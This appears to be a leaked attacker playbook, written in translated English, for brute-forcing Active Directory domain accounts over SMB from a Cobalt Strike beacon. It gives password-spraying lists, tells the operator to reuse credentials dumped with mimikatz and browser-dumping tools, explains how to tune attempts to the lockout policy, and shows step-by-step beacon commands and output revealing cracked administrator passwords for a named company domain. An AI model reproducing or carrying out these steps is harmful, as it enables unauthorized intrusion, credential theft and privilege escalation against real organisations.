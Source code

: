 # SMB AUTOBRUT
The input data for carrying out this attack are only passwords.
   - those that dumped from the CharpChrome browser
   - those that were dumped by SeatBeltom
   - those that dumped in the process of work inside the network (mimikatts, etc.)
And in general any others, for example, found recorded in files
   
If there are fewer such passwords than we can launch a brute-force attack, we can safely supplement them from the following list of the most commonly encountered in the corporate environment.
```
Password1
Hello123
password
Welcome1
banco@1
training
Password123
job12345
spring
food1234
```

We also recommend using password lists based on the seasons and the current year. Considering that passwords are changed every three months, you can take a "reserve" to generate such a sheet.
For example, in August 2020, we create a list with the following content
```
June2020
July2020
August20
August2020
Summer20
Summer2020
June2020!
July2020!
August20!
August2020!
Summer20!
Summer2020!
```
All passwords above fall either into 3 out of 4 requirements for Active Directory passwords (which is enough for users to set them), or into all 4 requirements.
Approx. we consider the most popular option of requirements.


   
   Domain Admins Scenario
1. We collect the list of domain administrators with the command shell net group "domain admins" / dom
   We write the received data to a file
   admins.txt
2.   We upload this file to the host in the folder C:\ProgramData
3.   We request information on the domain account blocking policy (protection against brute force)
   beacon> shell net accounts /dom
   

    Tasked beacon to run: net accounts /dom
    host called home, sent: 48 bytes
    received output:


   The request will be processed at a domain controller for domain shookconstruction.com.
   Force user logoff how long after time expires?:       Never
   Minimum password age (days):                          1
   Maximum password age (days):                          42
   Minimum password length:                              6
   Length of password history maintained:                24
   Lockout threshold:                                    Never
   Lockout duration (minutes):                           30
   Lockout observation window (minutes):                 30
   Computer role:                                        BACKUP

We are interested in the Lockout threshold parameter, which most often contains a certain numerical value that we must use later as a parameter (in this case, it is Never, which means that protection against brute-force passwords is disabled.
   In this guide, in the future, we will indicate the value 5 as roughly the most common.
   The Minimum password length parameter indicates the minimum allowed number of password characters required to filter our "list" of passwords that we will set.
   
4. In the source code of the script, specify the domain in which the script will run
   -   line            $context = new-object System.DirectoryServices.ActiveDirectory.DirectoryContext("Domain","shookconstruction.com")

5.   Importing and running the script
   powershell-import /tmp/Fast-Guide/Invoke-SMBAutoBrute.ps1
   psinject 4728 x86 Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
   -   4728 in this case, this is the current pid, and x86 is its bit depth
   - The list of passwords consists of one which we had "found" and two from the list of popular passwords
   
6. We look at the progress of the script and see the result
   

    Success! Username: Administrator. Password: 1qazXDR%+
    Success! Username: CiscoDirSvcs. Password: 1qazXDR%+


We got two domain administrators out of the way.
   
================================================== =======================
   
   The scenario without specifying a list of users differs in only two ways.
   - psinject 4728 x86 Invoke-SMBAutoBrute -PasswordList "Password1, Welcome1, 1qazXDR% +" -LockoutThreshold 5
      We do not specify the UserList and ShowVerbose parameters. The absence of the first means that the search will be performed on ALL domain users, the absence of the second means that only SUCCESSFUL results will be displayed.
   
   I will not wait in the video guide for the end of the script that will go through all user / password pairs in the domain, I will only show the output.


    Success! Username: Administrator. Password: 1qazXDR%+
    Success! Username: CiscoDirSvcs. Password: 1qazXDR%+
    Success! Username: support. Password: 1qazXDR%+
    Success! Username: accountingdept. Password: 1qazXDR%+   


   
   As you can see, we were able to find accounts of other users that may be useful for further promotion on the network and raising rights.

   If there is no positive result, you can repeat it after a while (it is optimal to multiply the Lockout duration parameter by two before the next attempt) with a new list of passwords.
   The end of the script will be marked by outputting a message to the beacon
